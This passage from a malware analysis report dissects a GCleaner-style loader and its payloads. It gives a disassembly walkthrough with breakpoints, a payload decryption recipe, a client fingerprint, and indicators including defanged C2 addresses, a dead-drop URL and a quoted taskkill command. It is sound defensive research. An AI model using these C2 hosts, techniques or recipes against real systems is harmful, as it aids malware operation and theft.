| Application Layer Protocol: Web Protocols | T1071.001 | Both | Plain-HTTP over WinINet in both components |
| Ingress Tool Transfer | T1105 | Both | Loader's `/update` fetch; update payload's `/service` fetch |
| Deobfuscate/Decode Files or Information | T1140 | Both | CryptoAPI decrypt in loader; Content-Encoding COM decode in update payload |
| Obfuscated Files or Information | T1027 | Both | Substitution cipher + XOR 0x2f in loader; randomised drop-path naming in update payload |
| Reflective Code Loading | T1620 | Loader | In-process PE loader, structure close to the public MemoryModule library (medium confidence) |
| Modify Registry | T1112 | Loader | `HKCU\Software\YClean\YClean` — install-tracking marker |
| User Execution: Malicious File | T1204.002 | Update payload | `CreateProcessA` / `ShellExecuteA` fallback launching the dropped file |
| Web Service: Dead Drop Resolver | T1102.001 | `logger.file` v1 | Same Drive file as the loader, decoded to the beacon host |
| Obfuscated Files or Information: Dynamic API Resolution | T1027.007 | `logger.file` v1 | About 30 APIs resolved with `GetProcAddress` |
| Command and Scripting Interpreter | T1059 | `logger.file` v2 | The request runs as a script in a stock AutoHotkey interpreter. No sub-technique fits |
| Application Layer Protocol: Web Protocols | T1071.001 | `logger.file` v1, v2 | One plaintext `GET` on port 80, response discarded |
| Virtualization/Sandbox Evasion | T1497 | Neither | *Unconfirmed.* Generic heuristics fired; no attacker-authored logic found |


## Reverse guide

### The loader

Addresses are file VAs at image base `0x00400000`. The CRT entry point at `0x408b4f` is unremarkable. Two functions downstream are the whole sample: `FUN_00406f90` is the `WinMain`-equivalent, and `FUN_004043a1` is the top-level orchestrator.

#### Landmarks

| Address | Working name | Role |
|---|---|---|
| `0x408b4f` | `entry` | Standard MSVC CRT startup |
| `0x406f90` | `winmain_call_gcleaner_main` | Hardcodes `sub` / `build_literal`, calls the main dispatcher |
| `0x4043a1` | `main_c2_response_dispatcher` | Jitter → redirector fetch → C2-host decode → campaign-parameter dictionary → poll loop |
| `0x403d15` | `poll_info_fetch_update_exec_inmemory` | `/info` poll → key derivation → `/update` fetch and decrypt → reflective load → call `updateSW`, ten-retry ceiling |
| `0x403015` | `cryptoapi_aes_decrypt` | CryptoAPI key derivation and chunked `CryptDecrypt` |
| `0x402ac0` | `memorymodule_load_pe_and_call_dllmain` | Validates, maps, relocates the decrypted PE, calls `DllMain` |
| `0x4025d9` | `memorymodule_copy_sections` | Section copy for the above |
| `0x402dd0` | `memorymodule_get_proc_address` | Export resolution on the reflectively-loaded module |
| `0x40429c` | `build_c2_host_substitution_map` | Builds the decode anchor and its lookup |
| `0x401b7d` | `generic_wininet_https_get` | One GET-and-read-body helper, reused for the HTTPS redirector fetch *and* every C2 request |
| `0x401651` | `read_response_body` | `InternetReadFile` loop into a growable buffer |
| `0x401592` | `add_http_headers` | Wraps `HttpAddRequestHeadersA` for all four hardcoded headers |
| `0x4041f0` | `write_hkcu_reg_sz` | The single `HKCU` registry-write helper |
| `0x403281` | `jitter_random_range_ms` | `rand()`-backed `[min,max]` millisecond generator feeding every `Sleep` |
| `0x403452` | `stage_temp_dir` | Randomised `%TEMP%` subdirectory name generation |
| `0x40715d` | `xor2f_decode_len6` | One of the fixed-length XOR decoders; siblings at `0x407172`, `0x407187`, `0x40719c` |

#### Walking the loader

Set a breakpoint at `0x406f90` and step these in order.

| Stage | Address range | What to look at |
|---|---|---|
| Build identity | `0x406fac` – `0x406fd5` | Two pushed string pointers, `0x4273ec` (`"none"`) and `0x4273f4` (`"mixthree"`), then `CALL 0x4043a1`. **Read a new build's campaign identity here** — the sibling literals `mixeleven` / `mixtwelve` / `mixthirt` sit adjacent but are dictionary keys, not this build's identity |
| Initial jitter | `0x4043db` | `MOV EDX,0x1388; MOV ECX,0x3e8` → 1000–5000 ms. Patch either register to `1` to skip |
| C2-host decode | `0x40429c` – `0x404330` | The anchor assembles across `MOVAPS XMM0,[0x4274b0]`, then `0x4042d1` and `0x4042db`. `0x811c9dc5` at `0x404330` is FNV-1a offset basis, not key material. **Read the whole cipher off the anchor and stop** |
| Registry marker | `0x4041f0`, subkey built at `0x406e01` | One `RegCreateKeyExA` and one `RegSetValueExA`. The path decodes from `0x427510` |
| Poll-loop jitter | `0x403d3a` | `EDX=0xfa0, ECX=0x3e8` → 1000–4000 ms per iteration |
| `/info` fetch | blob at `0x42b978` | Break after the body read: the entire body is the key material |
| `/update` fetch | blob at `0x42ba74` | The entire body is the ciphertext |
| Decrypt | `0x403015`, called from `0x4040aa` | Full CryptoAPI chain. `Algid` immediates on `CryptCreateHash` and `CryptDeriveKey` give hash and cipher; no `CryptSetKeyParam` settles the IV. Note the CRT widening chain at `0x40e87b` → `0x40e6d8` between HTTP read and `CryptHashData` — stepping over it is how the encoding gets misread |
| **Recovering the update payload** | `0x4040ba` | **Break here** to skip derivation. The fully decrypted buffer is in hand — dump it for the plaintext PE |
| Reflective load | `0x402ac0` → `0x4025d9` | Header validation fires diagnostic strings (`"DOS header is not valid!"`, `"Signature != IMAGE_NT_SIGNATURE!"` etc.) — useful as breakpoint bait on a malformed payload |
| Export call | `0x40412d` | `CALL EDI` — the single indirect call, resolved from `GetProcAddress`-equivalent lookup of `updateSW` |
| Retry ceiling | `0x403eae` / `0x404100` | `CMP ESI,0xa; JL` — after ten failed cycles the loop exits. Failure backoff is `PUSH 0xbb8; CALL Sleep` at `0x403ec5`, a fixed 3000 ms |
| Staging directory | `0x403452`, jitter at `0x403478` | 5000–9000 ms before `GetTempPathA` and the randomised directory creation |

#### Three things worth not misreading

- **The registry write is not persistence.** `HKCU\Software\YClean\YClean` = `"YClean"` is a self-referential install-tracking marker. No `Run`, `RunOnce`, `Services` or `AppInit_DLLs` path exists anywhere. No service-install APIs are imported.

**What is left.** One open item: the target CLSID(s) of an unresolved `CoCreateInstance` call site. It is the only COM usage that could plausibly relate to scheduled-task or shell-integration persistence, and it was not ruled out. Closing it means locating the GUID bytes pushed before the call and cross-referencing known CLSIDs. Separate from the update payload's COM usage, which is resolved.

### The update payload

Addresses at image base `0x10000000`. The module has roughly 620 functions; almost all are MSVC CRT and STL plumbing. Start at the sole export `updateSW` (`0x10001f36`) and everything interesting is one of its callees. The DLL entry stub at `0x10002ad0` is ordinary CRT startup.

#### Landmarks

| Address | Working name | Role |
|---|---|---|
| `0x10001f36` | `updateSW` (export) | Sole export, top-level orchestrator: seed RNG, allocate, fetch, size-check, build path, write, launch |
| `0x10001564` | `http_download_request` | Builds and sends the WinINet GET; splits the caller's string into host and path |
| `0x100010c0` | `add_http_headers` | Adds the four hardcoded `Accept*` headers |
| `0x10001183` | `send_request_and_read_response` | Read loop, `Content-Encoding` query, and COM decode dispatch |
| `0x1000109c` | `cleanup_http_download_ctx` | Frees the request object's buffers, tail-calls `CoUninitialize` |
| `0x10001c5e` | `random_string_from_alphabet` | `rand() % 84` character generator |
| `0x10001cfd` | `build_drop_dir_appdata_temp_fallback` | Resolves `%APPDATA%` or `%TEMP%`, appends random name, creates directory |
| `0x1000175e` | `write_buffer_to_file` | `CreateFileA` / `WriteFile` / `CloseHandle` |
| `0x10015f40` | `random_name_alphabet84` | The 84-character naming alphabet |
| `0x100111b0` | `clsid_content_decoder` | The 16 CLSID bytes passed to `CoCreateInstance` |
| `0x10015d90` / `e10` / `e3c` / `e70` | the four `Accept*` header literals | Byte-identical to the loader's |

#### Walking the update payload

| Stage | Address range | What to look at |
|---|---|---|
| Export entry | `0x10001f36` | Two arguments on the stack. `param_1` is `http://<c2_host>/service`; `param_2` is the campaign identifier, stored and never read again |
| RNG seed | top of `updateSW` | `time()` (`0x10005ada`) into `srand()` (`0x10005b63`), once. Pin the seed here for reproducible paths |
| Download buffer | top of `updateSW` | `operator new(0x7a120)` — 500,000 bytes, zeroed. A capacity hint; the read loop grows past it |
| **Recovering the download target** | `0x100015a6` – `0x100015e8` | The `http://` prefix scan and the `/` split. Break here to read the live `c2_host` out of the `/service` URL without touching the loader's decode |
| Port | `0x100016b6` | Immediate `0x50` — plain HTTP, hardcoded |
| Headers | `0x100010c0` | Four `HttpAddRequestHeadersA` calls with flag `0x20000000` |
| Read loop | `0x10001183` | Buffer starts at `0x7800`, grows by `0x7800` when headroom drops to `0x3e8` or less. Loops until `InternetReadFile` reports zero |
| Content-Encoding gate | inside `0x10001183` | `HttpQueryInfoA` with `dwInfoLevel = 0x1d`. If empty, the whole COM path is skipped — set a conditional breakpoint here rather than on `CoCreateInstance` |
| COM decode | `0x100012d8` → `0x10001365` → `0x10001408` → `0x1000153c` | `CoCreateInstance`, factory vtable call at `+0x10`, transform call at `+0x10`, then `Release` at slot 2 |
| Size gate | back in `updateSW` | `<= 0x800` returns `-1`. Patch the comparison to test the drop path with a small response |
| Name generator | `0x10001ca9` – `0x10001cbe` | Six instructions. `DIV` by `0x54`, index `0x10015f40` |
| Length formulas | `0x10002051`, `0x10001d70`, `0x10001e53` | `rand()%5+9`, `rand()%7+5`, and `AND EAX,0x80000007` plus 4 — 9–13, 5–11 and 4–11 characters |
| Drop directory | `0x10001cfd` | `SHGetFolderPathA(CSIDL_APPDATA)` → `getenv("APPDATA")` fallback → `CreateDirectoryA` tolerating `0xB7` → `%TEMP%` retry branch |
| Write and launch | `0x1000175e`, then `CreateProcessA` | `.exe` appended before write. `ShellExecuteA` with `"open"` verb is the fallback |
| Cleanup | `0x1000109c` → `0x100010ba` | `CoUninitialize` runs on every path |


### `logger.file`

The first version has no CRT chain. The entry stub at `0x1400011e8` calls one routine and exits. The decompiler was down for that analysis, so every address is from disassembly. Addresses are VAs at image base `0x140000000`.

| Address | Working name | Role |
|---|---|---|
| `0x1400011e8` | `entry` | Calls the main routine, then exits |
| `0x1400010b4` | Main beacon routine | API resolution, Drive fetch, decode, check-in, in that order |
| `0x1400011fc` | API resolver | Fills a global pointer table with `GetProcAddress` |
| `0x140001580` | HTTPS fetch wrapper | WinHTTP `GET`, used once, for the Drive file |
| `0x140001544` | Certificate bypass | `WinHttpSetOption` with `0x3300` before the Drive request |
| `0x140001000` | Letter decoder | Maps `A`–`K` to `1`–`9`, `0`, `.`. Output of 7 characters or more is the host |
| `0x140001740` | Check-in wrapper | WinHTTP `GET` to the decoded or fallback host, port 80 |
| `0x140003128` / `0x140003138` | Fallback IP / check-in path | Plaintext `.rdata` strings, widened to UTF-16 at the call |

Break at `0x1400011a9` to read the live beacon host. The decoded or fallback IP sits in the host buffer there. The decoder needs no key, so a script only has to apply the mapping.

The second version keeps its logic in the resource, not in code. `FUN_004189a0` at `0x004189a0` finds `>AUTOHOTKEY SCRIPT<` (RVA `0xe0e78`, 216 bytes, VA `0x004e0e78`) and hands the raw pointer to the parser at `0x00474e10`. Nothing decrypts it in between. Read it with a resource walk, or with a script that parses the `RT_RCDATA` tree.

## Indicators

> [!TIP]
> **Component** — **L** loader · **U** update payload · **B** both · **F1** `logger.file` first version · **F2** `logger.file` second version.

---

| Value | Type | Comp. | Context |
|---|---|---|---|
| `d3b3a4973f2513fc0513039eab279fc808fcb48ce4ce3a0bc5c3b734217cafaf` | SHA-256 | L | Loader |
| `1bdc51e52738f9d34314e8e91f5538a54a75f167fb2b47d5beacf7d4ede9d601` | SHA-256 | U | Update payload |
| `901ff7df218f19164e4d289fd6a7064e` | MD5 | L | Loader |
| `754e174bad4aa79f83b12e013311fab9` | MD5 | U | Update payload |
| `0e8dc3c1ed837a50062e1587a9cd450e` | imphash | L | Loader |
| `302f4ebdce63d1e3cfae816587e486af` | imphash | U | Update payload |
| `hxxps://drive[.]usercontent[.]google[.]com/download?id=1YBVIDkZgygNfUU2rbJXXCYdrzay5rMdY&export=download&authuser=0&confirm=t` | URL | L, F1 | HTTPS redirector carrying the encrypted C2 hostname. `logger.file` v1 fetches the same file |
| `91[.]92[.]242[.]236` | IPv4 | L | Decoded C2 host for this build |
| `185[.]156[.]73[.]98` | IPv4 | L | From recovered configuration; not independently re-derived |
| `45[.]91[.]200[.]135` | IPv4 | L | From recovered configuration; not independently re-derived |
| `/success` | HTTP path | L, F2 | Install-registration endpoint. Most reliable network signal for the loader. v1 uses `/good` instead |
| `/info` | HTTP path | L | Key-material endpoint |
| `/update` | HTTP path | L | Ciphertext endpoint |
| `/service` | HTTP path | B | Delivery endpoint. Only one left in plaintext in `.rdata` |
| `/check` | HTTP path | L | Decoded from XOR strings; function not fully traced |
| `substr=mixthree` | Subscription parameter | L | This build's affiliate identity |
| `letter=C`, `s=three`, `sub=none` | Configuration values | L | Remaining subscription fields |
| `mixeleven`, `mixtwelve`, `mixthirt` | String constants | L | Sibling campaign-tag literals |
| `usone`, `ustwo` | String constants | L | Subscription-key literals |
| `0x2f` | XOR key | L | Single-byte XOR for every protected literal |
| `updateSW` | Export name | B | Lookup string in the loader, actual export in the update payload |
| `Microsoft Enhanced RSA and AES Cryptographic Provider` | String constant (wide) | L | CryptoAPI provider for `CryptAcquireContextW` |
| `{70BDDE00-C18E-11D0-A9CE-006097942311}` | COM CLSID | U | Content-Encoding handler via `CoCreateInstance` |
| `A6789STDvwyz...VWXYqrstuvw89Z` | String constant (84 chars) | U | Drop-path naming alphabet |
| `aba14a64c2427ab54db44a605d5b408d57e713b3a4d26a226b657c3f9fb12928` | SHA-256 | F1 | `logger.file` v1, 10,752 bytes |
| `4bd321ac2163c30f557e5afcd182748d` | MD5 | F1 | `logger.file` v1 |
| `3eb383f192c4a3b30d7fbb6d34238a49c6969597bb286de790df2709f2a26343` | SHA-256 | F2 | `logger.file` v2, 894,976 bytes |
| `80745874086c55c7bf00814ca112095d` | MD5 | F2 | `logger.file` v2 |
| `2c405cedaa3d74d01db889f28527eaf65602ea3e824be548b420bdcea10c3cce` | SHA-256 | F2 | The 216-byte embedded script |
| `158[.]94[.]209[.]95` | IPv4 | F1 | Fallback beacon host. Used when the Drive decode gives fewer than 7 characters |
| `109[.]238[.]86[.]13` | IPv4 | F2 | Beacon host, plaintext in the script |
| `/good?s=zzzztest&substr=four` | HTTP path and query | F1 | Check-in request, port 80, no headers |
| `/success?s=zzzztest&substr=four` | HTTP path and query | F2 | Check-in request, port 80, no headers |
| `s=zzzztest`, `substr=four` | Query values | F1, F2 | Shared by both versions. May rotate |
| `pppisx` | Script variable | F2 | Holds the `WinHttp.WinHttpRequest.5.1` object |
| `WinHttp.WinHttpRequest.5.1` | COM ProgID | F2 | Created by the script. Common to many scripts |
| `>AUTOHOTKEY SCRIPT<` | Resource name | F2 | `RT_RCDATA` entry holding the script. Present in every compiled AutoHotkey EXE |
| `logger.file` | MWDB upload name | F1, F2 | Label on upload. Not file content |
| `fuckingdll.dll` | PE metadata | U | Developer's module name |
| `YClean` | String constant | L | Brand string in registry path and decoded strings |
| `HKCU\Software\YClean\YClean` = `"YClean"` | Registry key | L | Install-tracking marker |
| `%APPDATA%\<9–13 random chars>\<random>.exe` | File path pattern | U | Primary drop path |
| `%TEMP%\<4–11 random chars>\<random>.exe` | File path pattern | U | Fallback drop path |
| `Bunifu_UI_v1.5.3.dll` | Filename | — | From recovered configuration. Served by `/ycl` for `User-Agent: d` |
| `YCL.exe` | Filename | — | From recovered configuration. Served by `/ycl` for `User-Agent: s` |
| `YCL.lnk` | Filename | — | From recovered configuration. A copy exists in the analyst's extract. It is a Windows shortcut to `%TEMP%\<19 random chars>\YCL.exe`, left by a machine that ran the stub |
| `/ycl` | HTTP path | — | Serves `YCL.exe` or the DLL by `User-Agent`. In the recovered configuration. Behavior checked by hand |
| `User-Agent: s` / `User-Agent: d` | HTTP header | — | Select the stub (`Content-Disposition: filename=soft`) or the DLL (`filename=dll`) |
| `7c47fb79480c25d7108ab62ac02412b9492ea507bd4fe4dba519fd4372cde619` | SHA-256 | — | `YCL.exe`, patched 7z self-extracting stub |
| `b96c8639c5076a16bd09275d529f294aa6069ae2ee7dc9406c50538fe61669ea` | SHA-256 | — | `file.bin`, the stub's inner zip |
| `22008a8348ba02f34109fe96ac759f6e4f715257cc3ba7288e599c358de91347` | SHA-256 | — | `AntiAV.data`, 2,453,685 bytes, inside `file_5.zip`. Random letters then decimal digits. No script reads it. No payload found. Probably archive filler |
| `dbcef1d924bb04367891dd29e75f2a1f3886600789f77b8207e211028db334ba` | SHA-256 | — | `ycorig.exe`, trial-ware cleaner |
| `hxxps://y-cleaner[.]org` | URL | — | Opened by the website buttons in `ycorig.exe` |
| `bcgame-bcallmain-mirror2[.]com` | Domain | — | Banner host in `ycorig.exe` |
| `f1b3e0f2750a9103e46a6a4a34f1cf9d17779725f98042cc2475ec66484801cf` | SHA-256 | — | `Bunifu_UI_v1.5.3.dll`, cracked UI library |
| `%Temp%\main` | Directory | — | Stub extraction folder. Holds `main.bat`, `KillDuplicate.cmd`, `7z.exe`, `7z.dll`, `file.bin`, then `ycorig.exe` |
| `HKCU\SOFTWARE\YClean\SetCheck`, `License`, `TrialChecks` | Registry key | — | `ycorig.exe` trial and licence state. Shares the `Software\YClean` root with the loader marker |
| `Bunifu UI cracked by COOL_LEMUR` | String constant (wide) | — | Popup text in the DLL. Shows only inside `devenv.exe` |
| `Bunifu UI License`, `Bunifu UI License Error` | String constant (wide) | — | Popup titles in the DLL. The error popup is never reached |
| `taskkill /im devenv.exe /f` | String constant (wide) | — | Command in the DLL, passed to `CMD.exe /C`. Sits in a loop that never runs |
| `b5b42096-3d33-4954-8acc-f9cd769adea7` | MVID | — | Module ID of the DLL |

**HTTP client fingerprint** — alert on the full set together. Byte-identical in both components.

```text
Accept: text/html, application/xml;q=0.9, application/xhtml+xml, image/png, image/jpeg, image/gif, image/x-xbitmap, */*;q=0.1
Accept-Language: ru-RU,ru;q=0.9,en;q=0.8
Accept-Charset: iso-8859-1, utf-8, utf-16, *;q=0.1
Accept-Encoding: deflate, gzip, x-gzip, identity, *;q=0
```

**Payload decryption recipe** — deterministic, fully solved.

```text
key       = SHA-256( UTF-16LE( /info response body ) )[:16]
plaintext = AES-128-CBC( /update body, key, IV = 0x00 × 16 )   # PKCS7, 160-byte chunks
```

> [!WARNING]
> **The update payload never exists as a file on disk**
>
> During infection, the update payload is mapped into the loader's process memory and never written to the filesystem. Its hashes match only in memory dumps or against a decrypted `/update` response.


## References

<a id="ref-1"></a>**[1]** [VirusTotal collection — GCleaner / Amadey mixes](https://www.virustotal.com/gui/collection/28c493c2177c1758c5a1c8830a06267d65678a1eb3daa66f9b041d5abb1996e3)<br />
<a id="ref-2"></a>**[2]** [Malpedia — win.gcleaner](https://malpedia.caad.fkie.fraunhofer.de/details/win.gcleaner)<br />
<a id="ref-3"></a>**[3]** [JoeSandbox — Analysis report 1962370](https://www.joesandbox.com/analysis/1962370/0/html)<br />
